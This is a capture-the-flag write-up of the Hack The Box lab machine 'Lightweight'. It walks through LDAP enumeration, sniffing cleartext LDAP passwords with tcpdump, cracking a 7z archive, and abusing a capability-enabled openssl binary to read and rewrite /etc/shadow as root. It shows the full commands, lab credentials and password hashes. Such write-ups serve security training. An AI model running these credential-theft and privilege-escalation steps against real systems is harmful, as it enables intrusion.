



hackthebox Lightweight
Released: March 2017 / Pwned: May 11th 2019 - [+] Solved whilst Active

This is a very different box to others that I've tried. It took a little a bit of creativity to get a user, and then research on a new a topic to get root.
1) Nmap
Initial scan:
nmap -sC -sV -O -oN nmap/initial.txt 10.10.10.119
-sC default scripts
-sV service enumeration
-O OS detection
-oN default output
Results:
root@kali:~/ctf/lightweight# mkdir nmap
root@kali:~/ctf/lightweight# nmap -sC -sV -O -oN nmap/intial.txt 10.10.10.119
Starting Nmap 7.70 ( https://nmap.org ) at 2019-05-10 15:24 BST
Nmap scan report for 10.10.10.119
Host is up (0.052s latency).
Not shown: 997 filtered ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
| 2048 19:97:59:9a:15:fd:d2:ac:bd:84:73:c4:29:e9:2b:73 (RSA)
| 256 88:58:a1:cf:38:cd:2e:15:1d:2c:7f:72:06:a3:57:67 (ECDSA)
|_ 256 31:6c:c1:eb:3b:28:0f:ad:d5:79:72:8f:f5:b5:49:db (ED25519)
80/tcp open http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips mod_fcgid/2.3.9 PHP/5.4.16
|_http-title: Lightweight slider evaluation page - slendr
389/tcp open ldap OpenLDAP 2.2.X - 2.3.X
| ssl-cert: Subject: commonName=lightweight.htb
| Subject Alternative Name: DNS:lightweight.htb, DNS:localhost, DNS:localhost.localdomain
| Not valid before: 2018-06-09T13:32:51
|_Not valid after: 2019-06-09T13:32:51
|_ssl-date: TLS randomness does not represent time
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 4.11 (92%), Linux 3.2 - 4.9 (92%), Linux 3.18 (90%), Crestron XPanel control system (90%), Linux 3.16 (89%), ASUS RT-N56U WAP (Linux 3.4) (87%), Linux 3.1 (87%), Linux 3.2 (87%), HP P2000 G3 NAS device (87%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (87%)
No exact OS matches for host (test conditions non-ideal).
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.44 seconds
22/ssh is good to take a mental note of.
80/tcp you should check first.
389/ldap might be a place to glean some information.
2) 80/tcp to 22/ssh
Have a read of the website.
http://10.10.10.119/user.php

You can ssh into the box using your ip as your username and password.
In my case I logged in like this (the web page recommends you to change your password, so I did):
root@kali:~/ctf/lightweight# ssh 10.10.13.128@10.10.10.119
The authenticity of host '10.10.10.119 (10.10.10.119)' can't be established.
ECDSA key fingerprint is SHA256:FWyyew+o9WoPYkfIKGEbTMsexks1z8ZkSUs9O+2AMSU.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.119' (ECDSA) to the list of known hosts.
10.10.13.128@10.10.10.119's password: 10.10.13.128
[10.10.13.128@lightweight ~]$ ls
[10.10.13.128@lightweight ~]$ pwd
/home/10.10.13.128
[10.10.13.128@lightweight ~]$ passwd
Changing password for user 10.10.13.128.
Changing password for 10.10.13.128.
(current) UNIX password: 10.10.13.128
New password: heytherejohn
Retype new password:
passwd: all authentication tokens updated successfully.
[10.10.13.128@lightweight ~]$
I had a poke around the file system checking for privesc methods. /etc/passwd had a user that stood out to me:
[10.10.13.128@lightweight ~]$ cat /etc/passwd
...
tcpdump:x:72:72::/:/sbin/nologin
...
Come back to this later.
3) 389/ldap
LDAP - Lightweight Directory Access Protocol - is a “lightweight client-server protocol for accessing directory services.� A common use of LDAP is to provide a central place to store usernames and passwords.
LDAP feels like it was designed to be intentionally difficult to use, so refer here for better explanation/commands - https://www.digitalocean.com/community/tutorials/how-to-manage-and-use-ldap-servers-with-openldap-utilities
The only thing to try with this LDAP server is anonymous authentication to see if we get any information.
Before you can anonymously authenticate you need to get the LDAP server's naming contexts.
Nmap should get the naming contexts for you (my nmap scan did).
If not, get naming contexts:
root@kali:~/ctf/lightweight# ldapsearch -H ldap://10.10.10.119 -x -s base -b "" namingContexts
# extended LDIF
#
# LDAPv3
# base <> with scope baseObject
# filter: (objectclass=*)
# requesting: namingContexts
#
#
dn:
namingContexts: dc=lightweight,dc=htb
# search result
search: 2
result: 0 Success
# numResponses: 2
# numEntries: 1
And now try anonymously authenticating using the naming contexts you just got:
root@kali:~/ctf/lightweight# ldapsearch -H ldap://10.10.10.119 -x -LLL -b "dc=lightweight,dc=htb"
dn: dc=lightweight,dc=htb
objectClass: top
objectClass: dcObject
objectClass: organization
o: lightweight htb
dc: lightweight
dn: cn=Manager,dc=lightweight,dc=htb
objectClass: organizationalRole
cn: Manager
description: Directory Manager
dn: ou=People,dc=lightweight,dc=htb
objectClass: organizationalUnit
ou: People
dn: ou=Group,dc=lightweight,dc=htb
objectClass: organizationalUnit
ou: Group
dn: uid=ldapuser1,ou=People,dc=lightweight,dc=htb
uid: ldapuser1
cn: ldapuser1
sn: ldapuser1
mail: ldapuser1@lightweight.htb
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: top
objectClass: shadowAccount
userPassword:: e2NyeXB0fSQ2JDNxeDBTRDl4JFE5eTFseVFhRktweHFrR3FLQWpMT1dkMzNOd2R
oai5sNE16Vjd2VG5ma0UvZy9aLzdONVpiZEVRV2Z1cDJsU2RBU0ltSHRRRmg2ek1vNDFaQS4vNDQv
shadowLastChange: 17691
shadowMin: 0
shadowMax: 99999
shadowWarning: 7
loginShell: /bin/bash
uidNumber: 1000
gidNumber: 1000
homeDirectory: /home/ldapuser1
dn: uid=ldapuser2,ou=People,dc=lightweight,dc=htb
uid: ldapuser2
cn: ldapuser2
sn: ldapuser2
mail: ldapuser2@lightweight.htb
objectClass: person
objectClass: organizationalPerson
objectClass: inetOrgPerson
objectClass: posixAccount
objectClass: top
objectClass: shadowAccount
userPassword:: e2NyeXB0fSQ2JHhKeFBqVDBNJDFtOGtNMDBDSllDQWd6VDRxejhUUXd5R0ZRdms
zYm9heW11QW1NWkNPZm0zT0E3T0t1bkxaWmxxeXRVcDJkdW41MDlPQkUyeHdYL1FFZmpkUlF6Z24x
shadowLastChange: 17691
shadowMin: 0
shadowMax: 99999
shadowWarning: 7
loginShell: /bin/bash
uidNumber: 1001
gidNumber: 1001
homeDirectory: /home/ldapuser2
dn: cn=ldapuser1,ou=Group,dc=lightweight,dc=htb
objectClass: posixGroup
objectClass: top
cn: ldapuser1
userPassword:: e2NyeXB0fXg=
gidNumber: 1000
dn: cn=ldapuser2,ou=Group,dc=lightweight,dc=htb
objectClass: posixGroup
objectClass: top
cn: ldapuser2
userPassword:: e2NyeXB0fXg=
gidNumber: 1001
The userPassword values in here are base64 encoded, so base64 decode them (the long ones, not e2NyeXB0fXg=).
Using this site is less effort than base64 -d imo - https://www.base64decode.org/
ldapuser1 base64 decoded:
{crypt}$6$3qx0SD9x$Q9y1lyQaFKpxqkGqKAjLOWd33Nwdhj.l4MzV7vTnfkE/g/Z/7N5ZbdEQWfup2lSdASImHtQFh6zMo41ZA./44/
https://www.openldap.org/faq/data/cache/344.html
"{CRYPT} passwords are designed to be compatible with your system's passwd file. You can generally (see above statement) take the password field from your (possibly shadowed) password file, prefix it with "{CRYPT}"and save this as the password."
i.e. the hash here is of the ldapuser1's system password.
This knowledge is useful because it tells you what a piece of data you gather later means.
You could fall down a rabbit hole and here and try bruteforcing the hash... but don't. (I did)
4) tcpdump
LDAP on port 389 is an unencrypted protocol. Since we have a shell on the target already (ssh) and tcpdump is installed (remember information gathered earlier) we can sniff for LDAP authentication being sent over the network.
Be patient:
[10.10.13.128@lightweight ~]$ tcpdump port 389 and src 10.10.10.119 and dst 10.10.10.119 -v -i any -s0 -w tcpdump2.pcap
tcpdump: listening on any, link-type LINUX_SLL (Linux cooked), capture size 262144 bytes
44 packets captured
root@kali:~/ctf/lightweight# scp 10.10.13.128@10.10.10.119:/home/10.10.13.128/tcpdump2.pcap .
10.10.13.128@10.10.10.119's password:
tcpdump2.pcap 100% 4936 74.6KB/s 00:00
Have a look what you've captured in wireshark:

ldapuser2 is authenticating using 8bc8251332abe1d7f105d3e53ad39ac2.
Considering the bit of {crypt} knowledge we gained earlier, 8bc8251332abe1d7f105d3e53ad39ac2 must be the ldapuser2's system password.
[10.10.13.128@lightweight ~]$ su ldapuser2
Password: 8bc8251332abe1d7f105d3e53ad39ac2
[ldapuser2@lightweight ~]$ ls
backup.7z OpenLDAP-Admin-Guide.pdf OpenLdap.pdf user.txt
[ldapuser2@lightweight ~]$ cat user.txt
8a866d3bb7e13a57aaeb110297f48026
5) backup.7z
ldapuser2 can't use ssh, but your <ip> user can. Copy backup.7z to /tmp, then to your <ip> home directory, and then scp.
[ldapuser2@lightweight ~]$ cp backup.7z /tmp
[ldapuser2@lightweight ~]$ exit
exit
[10.10.13.128@lightweight ~]$ cp /tmp/backup.7z .
root@kali:~/ctf/lightweight# scp 10.10.13.128@10.10.10.119:/home/10.10.13.128/backup.7z .
10.10.13.128@10.10.10.119's password:
backup.7z 100% 3411 53.4KB/s 00:00
[10.10.13.128@lightweight ~]$ su ldapuser2
Password:
[ldapuser2@lightweight 10.10.13.128]$ rm /tmp/backup.7z
You'll have to bruteforce it.
First extract the hash from the 7z file using 7z2hashcat. I had to install libcompress-raw-lzma-perl to get it to work.
root@kali:~/ctf/lightweight# git clone https://github.com/philsmd/7z2hashcat.git
Cloning into '7z2hashcat'...
...
root@kali:~/ctf/lightweight# cd 7z2hashcat/
root@kali:~/ctf/lightweight/7z2hashcat# ls
7z2hashcat.pl README.md
root@kali:~/ctf/lightweight/7z2hashcat# ./7z2hashcat.pl ../backup.7z
Cant locate Compress/Raw/Lzma.pm in @INC (you may need to install the Compress::Raw::Lzma module)
...
root@kali:~/ctf/lightweight/7z2hashcat# apt install libcompress-raw-lzma-perl
...
root@kali:~/ctf/lightweight/7z2hashcat# ./7z2hashcat.pl ../backup.7z
$7z$2$19$0$$8$11e96ba400e3926d0000000000000000$1800843918$3152$3140$1ed4a64a2e9a8bc76c59d8160d3bc3bbfd995ce02cf430ea41949ff4d745f6bf3ed238e9f06e98da3446dda53df0abf11902852e4b2a4e32e0b0f12b33af40d351b2140d6266db1a3d66e1c82fa9d516556ec893ba6841f052618ad210593b9975307b98db7e853e3ebfbef6856039647a6ad33a63f5b268fc003c39eba04484beff73264ff8c8fdb8e3bcc94ee0df4feacbba388536663f8feb8b1454890752fba4a7fba484cfd6d1d050aa6233478a2c425566d60630d985d15dae09c7485f92ea271d2087ac837b6f9101465cf4a62b0ee225245871655b1aa16526a2a5d61ab942d1418900fec9da5771da34cb8bf56ec7f05a75cf26a0202a7065b8b020769d244d95e3166fdb9f4557324e090307e91bc7adc7f56f5215ffd1463c7403c5725cbf006b46882439d629a14d4a1e25fafb202a1cfbac837eabf002f7ebfc87f20c67ff847c393a54e5724c29840016fa76be0dfbb73a79fb2ec3f0e9c7b246525acad50d76c3fe31d75004e5bc3e93ce79aab2ddbc91c7ce9666503e3ab8dcaf269d4554baee5276c516d23fabf41610ff4f666ad5cf9dc6dc3bed7e1c0a2767f018ca3cd15a35a1fbefce479b649a5db00263b55c470fcb049327e7aeb849359a74a2444de7a3c025b3a9dbfd597e0cdf642c340982b650d69f2c48b1e6b823b460734f3c6f3c1e3917b6780b0efda60ce5b7d03d55ff1fa0a161b9aa876b7498c8104f28ca6c6c629d6ca47c18e54bb237b62bd813d1cd47fdcd87b9597ddf14aec439185f8b892dedb4bcae949dbab74d72cd45dda311e0f38f219a1887bede5ec6697a8ab9f5cec687e18fd6ef2223015a3d717830f0aff0664e66ed51d185e965b55ce702135eb57f5efca251238f8e66f828c3d28d961dd09f244e735419273700e5ce97b4fa9ee3d5b45f8b81c9d5af1436e70f75dc9657354807bcadcdcf1e4f9432b29d55c21b59de59c933d0d96b0f3b89f871c14691faa63db3bdde5ca78f2c470839d49690d82f5c8334d9a857af449b1cd4c140b1087f41d09fb46baf5f0e7228716f992635e99861621d0e99d9d649ad863d99adab4ba060ef19b18a3dc2c64815401867c852ea17b01a5c551249cef2a234a1d0a91be047e06678a35ebe7256cca9791590bbfc37ee200d173f1c87a585003920ff52fc38f74da83c18284dbf171eda45fb0cba8d3ed09fc9d9e951ff95ae8b3326ec4d2cf6eaaca2890464a424f79718f044b6b7903c0f512744332f615f81e7a965df81f78ae950b98df910660b4c85bbee5b6b9b4eb061868530d1dee292296ac18e0f3081048834129583b2a7fa88573039ec01657642450688464a2e9db9bf9483d105875a30d855fe6c657a81ce5242a2a99887bdc1c786b57916b03a0d3cdddec1a0a8f94e6d9926ebf534a5b28fc4a4e16956941a5eb8718dbca21d9464a4a970b77a5967483f1373c4dc04967b16164d9d9ef6824acfcb63e20913234712b7abbc82f562aea65ef39d2bef6608d887cd5ff67966967a568a3dc21f28ad393d2ab3ca85ff7b87eebd97f80d878e616121bb94020c6fb80f3780c41dba3b4c4c3fceeba9748f4d9a47d3454b491b95bafddefd04afc8b1922e4a87534539d391fb948b59fcc1f5072c0af3c29afbbec26e2dfd7fc6d4e3a19fdb37cd49342bc7ec7526b6594295b341fe6a1a2a5f399eadade6dcb84d87fd3b00a9b79ef6c11cc01f5958a43fbdd2602eb10b4ddaa327ac043ee01c470d3ed2519488e80183043f41968f32283577cb5615de2416fcb9a74b1ce282614f818bc5adef0cb1dd6eb98d74a8d8214ec2a361b246bad656b487e8dce40f4fef808ad818c06ef5a972e2614e51e6b040f491a92ff39d55408cf92ccc0f797f27d8c1f7c5004b5613a660b6f306ba447bb99bbe5a408d00eb2dd4127351097f204e9d277a5eb97330a3d3409c7e097a18639542b1c9efe35eda1b12c1346bc8816a0430f5668a38735567ba09580504de831bb639ab1de7d2afcf2e470cbded2960f3300aca88446ccf0fa27715666e4eb45fe5d6a7a46c414d61e5fbbfd384c53e8bac6805083164332c2bd79d05c4d10436377a35b8402e186efd8959131437840c7b010d7ce74423e08bea80639414dbd0c290ced5bb1adf597b7a76141cc15d3d3054bcc4e9df234be4187725576645e86e0cfb9b7769a8cdefbec5b08d4feda04e8fd437631e181ac89deec9c54105a32776a2cb8f068177aabc375359e5b38ae4eb8cebf0668f5d104a5c5929c890c7d1de0694063943b844cd8f274b6f6bcbe004b3fe54e52905200e5b024a02498a1f767758e910516c7c295a552802e47d699cdd98adea07bd4f53f745342b990067339b9a0a2ab0c6ea2c0210961b96c7c22b2daaa322de7fddc91527d118c45d4a2a08a2c37a85a7b665ab4ba625b983019085b32096c78ed8a760c83fbf6c5811b7b16681b0a61513686d6810c72d0f1c30b792b1948a478ad660a4036fcd5dbfc57b352a22a4ed27daf1f8455aa9d81a5b8b28287fea4342c14bd42cf3159c830d322d166958a6e233ca7b9dd2914fce1f2621f95998e83df69bee22f70ae086f242690631fcd33730bb2e5ad64fa7d0b7b93931957311eeaa9b45382d020e85856e456712da51a9c220226d2a177e758ea6b7631647cc8419d04fb6b5dab40a841ba9d5660a550ac817af679f3c1a266b9c657372988ab38cfb6971695c59b5454fdf7ca1170066b99c06c985fb8564eed4caade040ef9320d5198041a2bfc62b4b21eb080520628ed3c8c8a2ffd8e0073b24c2059815da86f1b682622e714124950ff26ad79bf31897331fc23cd075fb1f4822046273b0898bebc1ba23110d74ed459c0c0f12488f0b51310f59c9dae537cdda5a75d48a4ac544531fba92fd6dbaa018cb3cc69ee4b9859f3fa1e022d4850bfd995afa9d70273789084f5955a30df3cf7de7f45c2601fe1ee0adbc89dbbd1aa23badcdfcc9d95e2bfd6f102c92bd1fb9648f446a98ab16302049f6862a0da1c758d0f0a7763e9ac0cdda94bed47f98103f8e068cd12bc83bb9a2bd2be19593d64a2f1034cdad6fbee498488a5b37efebcfe667393cf91c1a4d00082ea8463d57e691a0fb3b2394090dab00bb00d27b418b0db0171da74b6d314b78d951ec5ec87eff81800a0f41bb5eb01d5d116183667e1762c4a1d19631c05a61e1be0f05e5188da27df1a0d8697119fbe29693d776ce50c7896a3bc52888ebdcec056a4d7e675af2ea8de25f52e0470e053dd6614b3548ad0cd282a76d397b7e2fedc98d975003bd29feebc53ee5b412088599ac203cb8b6be1f3a0414511391b3495d175b3dfda7990753255ff0f13eb86ce97b5c6925aa31868523c325548720179c69e0e8df8407f5e87f263acd024cc5c4f5a75ef7a6fc1a3b650257fca20aa00674f35a07dac72471bbb500152b51dfe1743b797ad61110aa76b9fe69c0a02506ba4a6fc0b4a202efb9d88dfba38e5b5352046022cc17b57bdb40153db6b97e2f344d2c4598c0d021044eeb01423f6f6ade5702e10b63782fedddbaeba1dd9f9725eb3f85584fce2319b24851d7ec3ba2c2774741683b383ec97aadb7c912d655b6e5b147c33bb1856623b8ca08f092c0677d56e1dde99aa31ab30a654c57828536a120b4e4835ca6c7b5a2243bddfb9a00750521c74654a281cb12c806437030cd577907a797dc63a3959d47b68119a32a229899be06b7979c14b2c98e75667b8c5d30f0dfedd9553ba894ad9acda62f7f607bb35c080c3a440108ac0ce45f1873c5873488f2901790b08cb4928932a1c479d89ded5f6ce9f16c297e9dcc33c6b882b26c53b7a4f2b390367e36e384c1eb9805c0471aad4f77496e8f4fd447448dd59536629a645d04956fc30bcc686718e8d4d7cfc9ecbef3745af038de55826d328b7bad4a2eb7a10faf09c0618fd90d1941e8e3274bcd6eb2d8bed430ebfe6e8682b60390d79161f3a349c73de552d40f7421e5c4b4de80feb3998eb4ce6ecaef9bd2768e8be6534cd12ac163e70d3ed23963801c04770610c91f1ffcf4cbdf2a733f51e6fd596c855c0b905822a3838a82ea2d0e51dd442c451d05c6aa1b0099883db543927c0cc4016e27bb1b17fe863ae0c18458edbccdd6b15f0b73c3dc8c672c1bbbd81f290e9bb5291192143945d58757f64eceebd88e467d48b54a25cee7ed75263a4bb5d5597b9b5b75b6c254f81871f18246d2d91f664a0f49c1f67940d792d225272e713259f3135e5c286e081b1e2331f9217de1c0c9109d7a898458be85a4c130ea6e8c0db4dc5dbf77da5045f7da647c66e5af5676bb15221d5152da551a9390fda92e3539fde7afbd04e2e710ef28b5d5e50f2fdac106c9a18ef02414fb466f50f52b6e88e336ffe4fa929d9548630f3d7fb7d50ea590b2e3bdc3a88cf9d7f6b30f07d28ddf28c15c5371eb$4218$03
You'll now have a ridiculously large hash.
My go-to for cracking hashes is hashcat but for some reason hashcat wouldn't start. Fortunately john worked instead.
I copy/pasted the hash above into a file called backup7zhash and cracked it:
root@kali:~/ctf/lightweight# john -wordlist=/usr/share/wordlists/rockyou.txt backup7zhash
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip [SHA256 32/32 AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 12 for all loaded hashes
Cost 3 (compression type) is 2 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:16 0.00% (ETA: 2019-05-16 10:04) 0g/s 41.37p/s 41.37c/s 41.37C/s iubire..a123456
0g 0:00:00:23 0.01% (ETA: 2019-05-16 10:19) 0g/s 41.26p/s 41.26c/s 41.26C/s 741852..united
delete (?)
1g 0:00:00:49 DONE (2019-05-11 09:45) 0.02006g/s 41.21p/s 41.21c/s 41.21C/s rey619..delete
Use the "--show" option to display all of the cracked passwords reliably
Session completed
root@kali:~/ctf/lightweight# 7za e backup.7z
7-Zip (a) [32] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_GB.UTF-8,Utf16=on,HugeFiles=on,32 bits,2 CPUs Intel(R) Core(TM) i5-7500 CPU @ 3.40GHz (906E9),ASM,AES-NI)
Scanning the drive for archives:
1 file, 3411 bytes (4 KiB)
Extracting archive: backup.7z
--
Path = backup.7z
Type = 7z
Physical Size = 3411
Headers Size = 259
Method = LZMA2:12k 7zAES
Solid = +
Blocks = 1
Enter password (will not be echoed): delete
Everything is Ok
Files: 5
Size: 10270
Compressed: 3411
The interesting file you want is status.php:
root@kali:~/ctf/lightweight# cat status.php
...
$username = 'ldapuser1';
$password = 'f3ca9d298a553da117442deeb6fa932d';
...
6) ldapuser1
[ldapuser2@lightweight ~]$ su ldapuser1
Password: f3ca9d298a553da117442deeb6fa932d
[ldapuser1@lightweight ldapuser2]$ cd ~
[ldapuser1@lightweight ~]$ ls -alh
total 1.5M
drwx------. 4 ldapuser1 ldapuser1 181 Jun 15 2018 .
drwxr-xr-x. 18 root root 4.0K May 11 10:27 ..
-rw-------. 1 ldapuser1 ldapuser1 0 Jun 21 2018 .bash_history
-rw-r--r--. 1 ldapuser1 ldapuser1 18 Apr 11 2018 .bash_logout
-rw-r--r--. 1 ldapuser1 ldapuser1 193 Apr 11 2018 .bash_profile
-rw-r--r--. 1 ldapuser1 ldapuser1 246 Jun 15 2018 .bashrc
drwxrwxr-x. 3 ldapuser1 ldapuser1 18 Jun 11 2018 .cache
-rw-rw-r--. 1 ldapuser1 ldapuser1 9.5K Jun 15 2018 capture.pcap
drwxrwxr-x. 3 ldapuser1 ldapuser1 18 Jun 11 2018 .config
-rw-rw-r--. 1 ldapuser1 ldapuser1 646 Jun 15 2018 ldapTLS.php
-rwxr-xr-x. 1 ldapuser1 ldapuser1 543K Jun 13 2018 openssl
-rwxr-xr-x. 1 ldapuser1 ldapuser1 921K Jun 13 2018 tcpdump
[ldapuser1@lightweight ~]$
capture.pcap meant nothing to me, I've got no idea whether it has a purpose or is a rabbit hole.
There are 2 binaries to take note of, openssl and tcpdump.
The privesc method is a variation on SUID binaries.
SUID binaries allow a user to execute an entire command as root.
An alternative to SUID binaries, intended to be more secure than SUID, are Linux capabilities.
Capabilities are permissions set on a binary that allow it make specific system calls to the kernel e.g. you allow Apache to create raw network sockets with root permissions (using the capabilities CAP_NET_BIND_SERVICE and CAP_NET_RAW) because it needs to open a privileged port (port 80), which only root can normally do.
This is a more secure approach than using a SUID binary.
However, if you have a binary that:
1. is not owned by root
2. has no SUID/SGID bits set
3. has empty capabilities set (e.g.: ping=ep)
then that binary will run as root. This is the case on this box.
Scan the file system for files with capabilities:
[ldapuser1@lightweight ~]$ getcap -r / 2>/dev/null
/usr/bin/ping = cap_net_admin,cap_net_raw+p
/usr/sbin/mtr = cap_net_raw+ep
/usr/sbin/suexec = cap_setgid,cap_setuid+ep
/usr/sbin/arping = cap_net_raw+p
/usr/sbin/clockdiff = cap_net_raw+p
/usr/sbin/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/tcpdump = cap_net_admin,cap_net_raw+ep
/home/ldapuser1/openssl =ep
The openssl binary in ldapuser1's home directory has empty capabilities, meaning it will run as root.
openssl as a command can also download and upload files. Since we can download/upload as root, we're going to modify /etc/shadow.
6a) openssl
First, we change directory to the root filesystem because openssl's HTTP server interprets GET requests relative to the current directory.
i.e. if you're in /home/ldapuser1 when you start the server and request https://localhost:1337/etc/shadow it wouldn't work because it would request /home/ldapuser1/etc/shadow. So, you create the openssl server whilst at the root of the filesystem, using '..' in the path to access other directories doesn't work.
Create a temporary directory where you can dump the ssl key and certificate, and create them.
[ldapuser1@lightweight ~]$ mkdir openssltmp
[ldapuser1@lightweight ~]$ cd openssltmp/
[ldapuser1@lightweight openssltmp]$ ls
[ldapuser1@lightweight openssltmp]$ openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
Generating a 4096 bit RSA private key
....................................................++
...................................................................................................................................................................................................................................................................++
writing new private key to 'key.pem'
-----
You are about to be asked to enter information that will be incorporated
into your certificate request.
What you are about to enter is what is called a Distinguished Name or a DN.
There are quite a few fields but you can leave some blank
For some fields there will be a default value,
If you enter '.', the field will be left blank.
-----
Country Name (2 letter code) [XX]:
State or Province Name (full name) []:
Locality Name (eg, city) [Default City]:
Organization Name (eg, company) [Default Company Ltd]:
Organizational Unit Name (eg, section) []:
Common Name (eg, your name or your servers hostname) []:
Email Address []:
[ldapuser1@lightweight openssltmp]$ ls
cert.pem key.pem
Next, you have to cd to the root of the filesystem.
You're going to create an openssl server, and the openssl server will run relative to its current directory. i.e. if you run openssl in /home/ldapuser1 retrieving https://localhost:9001/etc/shadow won't work because it will try to retrieve /home/ldapuser/etc/shadow - which doesn't exist. So run openssl from the root of the file system (using ‘..’ to visit parent directories doesn't work).
Create the openssl server using the keys you created before:
[ldapuser1@lightweight openssltmp]$ cd /
[ldapuser1@lightweight /]$ /home/ldapuser1/openssl s_server -key /home/ldapuser1/openssltmp/key.pem -cert /home/ldapuser1/openssltmp/cert.pem -port 9001 -HTTP
Using default temp DH parameters
ACCEPT
At this point you can read any file on the system using curl.
Log in to another shell on the target and curl for /etc/shadow:
root@kali:~/ctf/lightweight# ssh 10.10.13.128@10.10.10.119
10.10.13.128@10.10.10.119s password:
Last login: Sat May 11 16:04:27 2019 from 10.10.13.128
[10.10.13.128@lightweight ~]$ curl -k https://localhost:9001/etc/shadow
...
You should receive /etc/shadow!
6b) Modify /etc/shadow
openssl can also upload/write to files, so you want to modify /etc/shadow.
Read the root hash:
root:$6$eVOz8tJs$xpjymy5BFFeCIHq9a.BoKZeyPReKd7pwoXnxFNOa7TP5ltNmSDsiyuS/ZqTgAGNEbx5jyZpCnbf8xIJ0Po6N8.
The format of the hashes in /etc/shadow is:
$ID$SALT$ENCRYPTEDPASS
$6 at the beginning means it's sha-512.
Take note of the number of characters in the salt (up to 16)
Now create a new root password using mkpasswd (I made root's password ‘smile’)
(I used the same salt as in the original shadow file so it's not too obvious for other players):
root@kali:~/ctf/lightweight# mkpasswd -m sha-512 -S eVOz8tJs -s
Password: smile
$6$eVOz8tJs$n6sQ.eS0RO8alN8RdILyBXb4BocpnY9gCf.u0aYUEwFgzH6KAVbbRd/hPYgMgrZAlFS1eSMokXCbFfKQUBTIL/
Replace root's original hash with the new hash you've just generated. Save it as shadow.modified.
My shadow.modified looked like this (i.e. root has changed):
root:$6$eVOz8tJs$n6sQ.eS0RO8alN8RdILyBXb4BocpnY9gCf.u0aYUEwFgzH6KAVbbRd/hPYgMgrZAlFS1eSMokXCbFfKQUBTIL/:17711:0:99999:7:::
bin:*:17632:0:99999:7:::
daemon:*:17632:0:99999:7:::
adm:*:17632:0:99999:7:::
lp:*:17632:0:99999:7:::
sync:*:17632:0:99999:7:::
shutdown:*:17632:0:99999:7:::
halt:*:17632:0:99999:7:::
mail:*:17632:0:99999:7:::
operator:*:17632:0:99999:7:::
games:*:17632:0:99999:7:::
ftp:*:17632:0:99999:7:::
nobody:*:17632:0:99999:7:::
systemd-network:!!:17689::::::
dbus:!!:17689::::::
polkitd:!!:17689::::::
apache:!!:17689::::::
libstoragemgmt:!!:17689::::::
abrt:!!:17689::::::
rpc:!!:17689:0:99999:7:::
sshd:!!:17689::::::
postfix:!!:17689::::::
ntp:!!:17689::::::
chrony:!!:17689::::::
tcpdump:!!:17689::::::
ldap:!!:17691::::::
saslauth:!!:17691::::::
ldapuser1:$6$OZfv1n9v$2gh4EFIrLW5hZEEzrVn4i8bYfXMyiPp2450odPwiL5yGOHYksVd8dCTqeDt3ffgmwmRYw49cMFueNZNOoI6A1.:17691:365:99999:7:::
